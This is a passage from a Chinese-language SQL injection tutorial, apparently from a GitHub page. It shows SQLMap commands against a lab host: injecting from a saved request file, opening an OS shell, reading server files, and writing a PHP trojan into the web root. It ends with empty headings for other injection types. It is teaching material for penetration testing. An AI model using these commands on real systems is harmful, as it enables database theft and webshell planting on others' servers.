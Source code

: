```
username=root&password=123456&vcode=42ic&id=1
```

Ⅲ、运行SQLMap时，再通过`-r`参数指定文件，同时通过`-p`参数明确指定参数，实现注入

```shell
sqlmap -r sqlmap.txt -p id --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" --dbs
```

> 由于URL地址已经在`sqlmap.txt`的请求内容中，所以不需要指定`-u`参数。如果不通过`-p`指定id参数，则SQLMap会对所有的参数进行注入测试。如`username=root&password=123456&vcode=42ic&id=1`，此处四个参数都会被尝试。

### 三、OS-Shell

#### 1、整个过程分为三个部分

Ⅰ、猜测网站绝对路径

Ⅱ、尝试写入木马

Ⅲ、获取到Shell命令行

```shell
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" --dbms=mysql --os-shell
```

#### 2、手工读写文件

```shell
# 读写远程服务器上的文件
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" --dbms=mysql --file-read

# 当SQL不能自动完成木马植入时，可以使用此命令进行手工植入
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" --dbms=mysql --file-write ./hack.php --file-dest /opt/lampp/htodcs/security/temp/hcak.php

# 此时，也可以使用Python调用sqlmap的命令(os.popen("").read())进行盲猜，循环遍历目录字典文件。
sqlmap -u "http://192.168.72.148/security/read.php?id=1" --cookie="PHPSESSID=srb89pb85tbjmbokmao4c7uih4" --dbms=mysql --os-shell --batch  
#--batch参数可以直接一次性运行完，SQLMap中途不会询问(非交互模式)，按照默认设置，适用于自动化
```

## SQL注入-其他注入

### 一、更新注入

​	所有更新类的操作，只返回布尔型的结果，并不会返回数据，所以无法向`Select`一样进行多样化的处理。所以更新类的操作的核心就是构造报错注入的Payload

### 二、堆叠注入

### 三、HTTP头注入

